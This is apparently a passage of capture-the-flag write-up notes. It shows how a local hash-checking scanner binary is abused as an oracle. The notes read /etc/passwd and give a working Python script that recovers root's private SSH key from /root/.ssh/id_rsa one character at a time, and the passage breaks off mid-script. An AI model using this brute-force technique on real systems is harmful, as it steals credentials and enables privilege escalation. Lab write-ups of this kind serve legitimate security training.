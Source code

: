      Specific hash to check against. Not compatible with -h
```
		- To test we try to execute this scanner. 
			- First we get md5 sum of first entry which is root in /etc/passwd/
				```bash
cat /etc/passwd | head -1
echo -n r md5sum

---OUTPUT---
4b43b0aee35624cd95b910189b3dc231
```
			- Then we check the hash with the scanner
				```bash
/opt/scanner/scanner -c /etc/passwd -l 1 -s 4b43b0aee35624cd95b910189b3dc231
/opt/scanner/scanner -c /etc/passwd -l 1 -s 4b43b0aee35624cd95b910189b3dc231

---OUTPUT---
[+] 4b43b0aee35624cd95b910189b3dc231 matches /etc/passwd
(nothing for wrong input)
```
				- Say we found md5sum of p then it would return nothing
				- The we can do the same for ro, roo, root
				- and we can use this scanner to match it
					- so we need to make a script that can do this for us
						```python
import subprocess
import hashlib
import string

charset = string.ascii_letters + string.digits + "-+/=\n" #base64 character set 

def brute(file,guess):
        hash = hashlib.md5(guess.encode()).hexdigest()
        result = subprocess.run(['/opt/scanner/scanner','-c', file, '-l', str(len(guess)), '-s', hash], stdout=subprocess.PIPE)
        if len(result.stdout) >0:
                return True
        return False

LOOP = True
guess = "-----BEGIN OPENSSH PRIVATE KEY-----"
print(guess,end="")
while LOOP:
        for c in charset:
                if brute("/root/.ssh/id_rsa", guess + c):
                        guess += c
                        print(c, end="", flush=True)
                        break
                if c == "\n":
                        LOOP = False

#print(len(result.stdout))

#print(result.stdout)
```
	- We can test each section dynamically in target to see if it works.
		- first we try brute and check if it is working
			```bash
python3
import subprocess
import hashlib
import string
def brute(file,guess):
        hash = hashlib.md5(guess.encode()).hexdigest()